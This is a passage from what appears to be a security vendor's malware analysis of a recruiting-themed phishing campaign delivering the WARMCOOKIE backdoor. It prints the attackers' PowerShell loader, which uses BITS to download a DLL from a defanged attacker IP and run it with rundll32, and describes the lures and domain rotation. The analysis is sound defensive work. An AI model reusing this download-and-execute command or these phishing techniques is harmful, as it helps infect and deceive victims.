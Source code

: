 ![WARMCOOKIE execution flow](/assets/images/dipping-into-danger/image10.png "WARMCOOKIE execution flow")

Since late April 2024, our team has observed new phishing campaigns leveraging lures tied to recruiting firms. These emails targeted individuals by their names and their current employer, enticing victims to pursue new job opportunities by clicking a link to an internal system to view a job description. Below is an example of the phishing email collected from previous open source reporting.

![Phishing email - Subject: “We’re Interested”](/assets/images/dipping-into-danger/image14.png "Phishing Email - Subject: “We’re Interested”")

Once clicked, the users hit a landing page that looks like a legitimate page specifically targeted for them. There, they are prompted to download a document by solving a CAPTCHA challenge. The landing pages resemble previous campaigns documented by Google Cloud’s security team when discussing a new variant of [URSNIF](https://cloud.google.com/blog/topics/threat-intelligence/rm3-ldr4-ursnif-banking-fraud/). Below is an example of the landing page collected from previous open source reporting.

![Landing page](/assets/images/dipping-into-danger/image6.png "Landing page")

Once the CAPTCHA is solved, an obfuscated JavaScript file is downloaded from the page. Our sample was named `Update_23_04_2024_5689382.js`; however, other samples used a different but similar naming structure. 

This obfuscated script runs PowerShell, kicking off the first task to load WARMCOOKIE.

![Initial execution chain as seen in Elastic Security for Endpoint](/assets/images/dipping-into-danger/image17.png "Initial execution chain as seen in Elastic Security for Endpoint")

The PowerShell script abuses the Background Intelligent Transfer Service (BITS) to download WARMCOOKIE and run the DLL with the `Start` export.

```powershell
start-job { param($a) Import-Module BitsTransfer; $d = $env:temp + '\' + 
    [System.IO.Path]::GetRandomFileName(); Start-BitsTransfer -Source 
    'http://80.66.88[.]146/data/5fb6dd81093a0d6812c17b12f139ce35' 
    -Destination $d; if (![System.IO.File]::Exists($d)) {exit}; $p = $d + 
    ',Start'; rundll32.exe $p; Start-Sleep -Seconds 10} -Argument 0 | wait-job | Receive-Job
```

### REF6127 infrastructure overview

By leveraging tools like [urlscan.io](https://urlscan.io/ip/45.9.74.135) and [VirusTotal](https://www.virustotal.com/gui/ip-address/45.9.74.135/relations), we observed the threat actor continually generating new landing pages rapidly on IP address `45.9.74[.]135`. The actor pushed to target different recruiting firms in combination with keywords related to the job search industry. 

![Domains associated with 45.9.74[.]135](/assets/images/dipping-into-danger/image3.png "Domains associated with 45.9.74[.]135")

Before hitting each landing page, the adversary distances itself by using compromised infrastructure to host the initial phishing URL, which redirects the different landing pages.

![Phishing link redirection](/assets/images/dipping-into-danger/image21.png "Phishing link redirection")

The threat actor generates new domains while the reputation catches up with each domain after each campaign run. At the time of writing, the threat actor can be seen pivoting to fresh domains without many reputation hits.
